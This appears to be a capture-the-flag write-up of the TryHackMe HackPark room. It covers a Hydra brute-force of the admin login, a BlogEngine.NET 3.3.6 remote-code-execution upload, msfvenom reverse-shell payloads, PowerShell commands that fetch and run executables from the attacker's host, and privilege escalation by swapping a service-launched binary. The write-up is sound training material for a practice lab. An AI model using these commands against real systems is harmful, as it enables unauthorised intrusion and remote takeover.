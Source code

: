 # HackPark - TryHackMe

# Recon Stage

The target machine is running a webserver on the default port 80:

![](2021-03-10-15-11-37.png)

Guessing the directory /admin we are redirected to a login page:

![](2021-03-10-15-17-36.png)

Here we will begin checking for weak admin passwords, especially seeming as the site looks underdeveloped

### Brute-Forcing Login

Trying out a random login allows us to see what POST request parameters are being used:

![](2021-03-10-15-19-45.png)

The username is given in the field `ctl00$MainContent$LoginUser$UserName` and password in `ctl00$MainContent$LoginUser$Password`

Now, using hydra and the rockyou.txt wordlist, I perform a dictionary attack with the username admin:

![](2021-03-12-07-09-23.png)

After some time we find a password. I login and head to the /admin directory we found before:

![](2021-03-12-07-11-10.png)

Here we have full admin access to the blogengine panel, but, we want to see if we can compromise the machine. I head over to the 'About' section to try and get a view of the software running and see if there are any exploits:

![](2021-03-12-07-12-25.png)

As you can see the webserver is running BlogEngine.NET version 3.3.6.0. Okay, let's see if there are any public exploits for this version:

![](2021-03-12-07-13-50.png)

From this it seems there is an issue within this specific version 3.3.6 which could allow for remote code execution. This is likely to be our attack vector into the machine.


## Exploit

I am going to mirror (copy) the exploit over to my working directory so I can take a look and hopefully run it against the target:

![](2021-03-12-07-17-47.png)


I edit the exploit code to include my local ip address and open up a tcp listener:

![](2021-03-12-07-24-51.png)

I rename the file to PostView.ascx as described within the attack description:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ mv 46353.cs PostView.ascx 
```

I open up the dashboard again and edit the current post, uploading the payload:

![](2021-03-12-07-27-00.png)
![](2021-03-12-07-27-36.png)

I then open up the relevant URL to launch the payload and receive a reverse TCP shell:

![](2021-03-12-07-28-42.png)


## Privilege Escalation with Metasploit

I create a meterpreter shell by creating a new payload using msfvenom:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.1.148 LPORT=4441 -f exe > meterpreter.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

I then use the SimpleHTTPServer python module to host this:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Start up metasploit with the correct handler and options:

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload payload/windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.9.1.148
msf6 exploit(multi/handler) > set LPORT 4441
LPORT => 4441
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.1.148:4441 
```

I then download and execute the new payload in C:/Windows/Temp on the target machine:

```
C:\Windows\Temp>powershell /c "Invoke-WebRequest -Uri 'http://10.9.1.148:8000/meterpreter.exe' -OutFile '/Windows/Temp/meterpreter.exe'"
c:\Windows\Temp>start meterpreter.exe
```

And now we have a meterpreter session!

![](2021-03-12-10-12-18.png)

Now I search through all services using the following command, in order to find anything we could use to priv esc:

`wmic service get name,startname,pathname,startmode`

And within the list I found a weird service:

`WindowsScheduler          C:\PROGRA~2\SYSTEM~1\WService.exe                                                  Auto       LocalSystem`

I navigate to the directory and initially considered overwriting WService.exe, but I do not have permissions to restart the service. However, upon inspection of the logs, we can see that this service regularly starts Message.exe as an admin:

![](2021-03-12-10-42-55.png)

I then recompiled a new payload for meterpreter shell using msfvenom but changing the port to 4440, and uploaded it in place of Message.exe:

```
meterpreter > upload /home/kali/TryHackMe/HackPark/meterpreter.exe ./Message.exe
[*] uploading  : /home/kali/TryHackMe/HackPark/meterpreter.exe -> ./Message.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/TryHackMe/HackPark/meterpreter.exe -> ./Message.exe
[*] uploaded   : /home/kali/TryHackMe/HackPark/meterpreter.exe -> ./Message.exe
```

Start up another meterpreter handler, and wholla, in our new meterpreter shell, we are admin:

```
C:\PROGRA~2>whoami
whoami
hackpark\administrator
```

Now we can find the flags


## Privilege Escalation without Metasploit

I then create a new more stable reverse TCP shell payload using msfvenom:

```
┌──(kali㉿kali)-[~/TryHackMe/HackPark]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.148 LPORT=4443 -f exe > shell.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

and host this on my local machine using ``python -m SimpleHTTPServer`` so that we can download it onto the target

On the target machine I navigate to C:/Windows/Temp and run the following commands to download the payload from the webserver and execute it:

```
c:\Windows\Temp>powershell /c "Invoke-WebRequest -Uri 'http://10.9.1.148:8000/shell.exe' -OutFile '/Windows/Temp/shell.exe'"
c:\Windows\Temp>start shell.exe
```

I then repeat the same process of uploading and executing with winPEAS.bat (which can be found [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat)) in order to find a vector for privesc. We find the same attack vector as before:

![](2021-03-12-11-19-17.png)









